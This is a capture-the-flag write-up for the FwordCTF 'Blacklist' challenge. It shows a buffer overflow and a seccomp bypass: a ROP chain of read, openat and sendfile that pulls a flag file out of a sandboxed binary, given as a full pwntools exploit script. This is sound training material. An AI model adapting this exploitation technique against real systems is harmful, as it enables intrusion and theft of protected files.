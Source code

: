 ## FwordCTF Blacklist Writeup
#### Tags: pwn, seccomp bypass, rop

We are given a statically linked binary:

```
$ file ./blacklist
./blacklist: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8231fd8232118e3b92ca37d041e1da3ab1daf4d9, for GNU/Linux 3.2.0, stripped
```

From analzying the binary, we can see it uses seccomp to restrict syscalls, then waits for input:

```
$ strace ./blacklist
...
seccomp(SECCOMP_SET_MODE_FILTER, 0, {len=24, filter=0x902350}) = 0
read(0, 
```

We can easily overflow, find the offset and control rip, but due to seccomp, it will be much harder to read the flag.

```
$ ./blacklist
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Let's analyze the seccomp profile using [seccomp-tools](https://github.com/david942j/seccomp-tools):
```
$ seccomp-tools dump ./blacklist
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x15 0xc000003e  if (A != ARCH_X86_64) goto 0023
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x12 0xffffffff  if (A != 0xffffffff) goto 0023
 0005: 0x15 0x11 0x00 0x00000001  if (A == write) goto 0023
 0006: 0x15 0x10 0x00 0x00000002  if (A == open) goto 0023
 0007: 0x15 0x0f 0x00 0x00000012  if (A == pwrite64) goto 0023
 0008: 0x15 0x0e 0x00 0x00000014  if (A == writev) goto 0023
 0009: 0x15 0x0d 0x00 0x00000038  if (A == clone) goto 0023
 0010: 0x15 0x0c 0x00 0x00000039  if (A == fork) goto 0023
 0011: 0x15 0x0b 0x00 0x0000003a  if (A == vfork) goto 0023
 0012: 0x15 0x0a 0x00 0x0000003b  if (A == execve) goto 0023
 0013: 0x15 0x09 0x00 0x0000003e  if (A == kill) goto 0023
 0014: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0023
 0015: 0x15 0x07 0x00 0x000000c8  if (A == tkill) goto 0023
 0016: 0x15 0x06 0x00 0x00000113  if (A == splice) goto 0023
 0017: 0x15 0x05 0x00 0x00000128  if (A == pwritev) goto 0023
 0018: 0x15 0x04 0x00 0x00000130  if (A == open_by_handle_at) goto 0023
 0019: 0x15 0x03 0x00 0x00000135  if (A == getcpu) goto 0023
 0020: 0x15 0x02 0x00 0x00000142  if (A == execveat) goto 0023
 0021: 0x15 0x01 0x00 0x00000148  if (A == pwritev2) goto 0023
 0022: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 ```
All the syscalls listed above are blocked.
Also attempting to switch to 32 bit mode to use 32 bit syscalls is not allowed.

We need to bypass the seccomp filter and read the flag somehow (it's path is known). After looking at the [amd64 syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can find some useful syscalls that allow us to read the flag:
 * read - to read the path of the flag into a known address
 * openat - to open the flag file and get the fd
 * sendfile - to transfer data between file descriptors (we can transfer to fd 1 stdout)

Now because the binary is statically linked, we will have plenty of rop gadgets to use. I chose to write a rop chain that uses only these syscalls. Another approach is to write custom shellcode, then use mprotect to mark the section of the shellcode as executable, and execute it.

Before I wrote the rop chain, I tested the syscalls in a [c program](blacklist/idea.c) in order to test it easily:
```
#include <fcntl.h>
#include <sys/sendfile.h>

int main() {
    // read(0, RW_ADDR, 900); // write path of flag to known address
    int fd = openat(0, "/path/to/flag.txt", O_RDONLY); // imagine that RW_ADDR points to the string "/path/to/flag.txt"
    sendfile(1, fd, 0, 0xffff);
    return 0;
}
```

Now the [final exploit](blacklist/solve.py):
```
from pwn import *

context(arch="amd64")
elf = ELF("./blacklist")

DEBUG = False
REMOTE = True

if DEBUG:
    p = gdb.debug("./blacklist", gdbscript="""
    b *0x4017b6
    continue
    """)
elif REMOTE:
    p = remote("blacklist.fword.wtf",1236)
else:
    p = process(elf.path)

offset = 72

read_n = 0
openat_n = 257 
sendfile_n = 40

pop_rdi_ret = 0x00000000004017b6#: pop rdi; ret;
pop_rsi_ret = 0x00000000004024f6#: pop rsi; ret;
pop_rdx_ret = 0x0000000000401db2#: pop rdx; ret;
pop_rax_ret = 0x0000000000401daf#: pop rax; ret;
pop_r10_ret = 0x0000000000401db1#: pop r10; ret;
syscall_ret = 0x000000000041860c#: syscall; ret;

path_str = "/path/to/flag.txt"
string_addr = 0x004d1260

# first payload to read string from stdin
payload = b""
payload += b"A"*offset 
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 fd
payload += p64(pop_rsi_ret)
payload += p64(string_addr) # arg2 buf
payload += p64(pop_rdx_ret)
payload += p64(300) # arg3 count
payload += p64(pop_rax_ret)
payload += p64(read_n)
payload += p64(syscall_ret) # read

# second payload to open using sendfile
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 (doesn't matter)
payload += p64(pop_rsi_ret) 
payload += p64(string_addr) # arg2 path
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3
payload += p64(pop_rax_ret)
payload += p64(openat_n)
payload += p64(syscall_ret) # openat

flag_fd = 3 # fd will always be 3

payload += p64(pop_rdi_ret)
payload += p64(1) # arg1 dst fd: stdout
payload += p64(pop_rsi_ret)
payload += p64(flag_fd) # arg2 src fd: flag_fd
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3 offset
payload += p64(pop_r10_ret)
payload += p64(0xffff) # arg4 count
payload += p64(pop_rax_ret)
payload += p64(sendfile_n)
payload += p64(syscall_ret)

p.sendline(payload)
p.sendline(path_str)
p.interactive()
```

And we get the flag!
**FwordCTF{th3_n4M3_1s_El1Z4be7h_K33n}**

Overall a really fun challenge.

